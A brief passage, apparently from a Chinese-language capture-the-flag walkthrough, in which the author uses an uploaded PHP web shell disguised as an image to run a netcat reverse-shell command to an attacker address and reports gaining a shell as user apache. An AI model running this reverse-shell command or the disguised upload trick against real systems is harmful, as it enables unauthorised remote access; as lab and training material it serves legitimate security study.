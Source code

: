 ![](img/2d1f3997517ce6596d0898c4b280ddec.png)

我看到有一个用户**是红色的。**我现在的目标是得到我的反向外壳:

```
10.10.10.146/uploads/10_10_14_72.php.jpg?cmd=nc 10.10.14.72 9001 -e /bin/sh
```

![](img/052d9d36b321fb1601a0a0e6ac77b4c5.png)

我现在是用户 apache。
